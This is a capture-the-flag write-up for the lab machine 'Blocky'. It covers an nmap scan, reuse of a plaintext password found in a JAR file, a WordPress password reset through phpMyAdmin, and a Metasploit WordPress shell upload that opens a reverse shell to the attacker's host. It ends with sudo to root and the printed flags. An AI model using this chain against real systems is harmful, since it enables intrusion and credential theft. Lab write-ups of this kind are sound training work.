






# Blocky

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.37

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
8192/tcp  closed sophos
25565/tcp closed minecraft

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## phpMyAdmin


## Wiki


## Wordpress Admin Login Page


## Plugins


## phpMyAdmin Credential in BlockyCore.jar (BlockyCore)

```
root: 8YsqfCTnvxAUeduzjNSXe22
```



## Wordpress Admin Login
Chose `passme` as `notch`'s password and generated its Wordpress hash, then edited the password hash via phpMyAdmin.

```
passme: $P$BZ.5OIwN/q5ZOjJLfypdMymuL4mBTf/
```




## RCE via Wordpress Admin SHELL Upload
```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Authenticating with WordPress using notch:passme...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/aZrLOPxtir/PUKoFDKHmJ.php...
[+] Deleted PUKoFDKHmJ.php
[+] Deleted aZrLOPxtir.php
[+] Deleted ../aZrLOPxtir
[*] Command shell session 3 opened (10.10.14.11:4444 -> 10.10.10.37:35802) at 2021-03-28 02:37:35 +0300

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Wordpress DB Credential
```
/var/www/html/wp-config.php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');
define('DB_HOST', 'localhost');
```

## SSH Login via phpMyAdmin Credential
notch user uses the password which was found in `BlockyCore.jar`.

```
notch: 8YsqfCTnvxAUeduzjNSXe22
```

```
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## The User Flag
```
notch@Blocky:~$ ls -l /home/notch/
total 8
drwxrwxr-x 7 notch notch 4096 Jul  2  2017 minecraft
-r-------- 1 notch notch   32 Jul  2  2017 user.txt
```

```
notch@Blocky:~$ cat /home/notch/user.txt 
59fee0977fb60b8a0bc6e41e751f3cd5
```

## The Root Flag
```
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# id
uid=0(root) gid=0(root) groups=0(root)
```

```
root@Blocky:/home/notch# ls -l /root/
total 4
-r-------- 1 root root 32 Jul  2  2017 root.txt
```

```
root@Blocky:/home/notch# cat /root/root.txt
0a9694a5b4d272c694679f7860f1cd5f
```
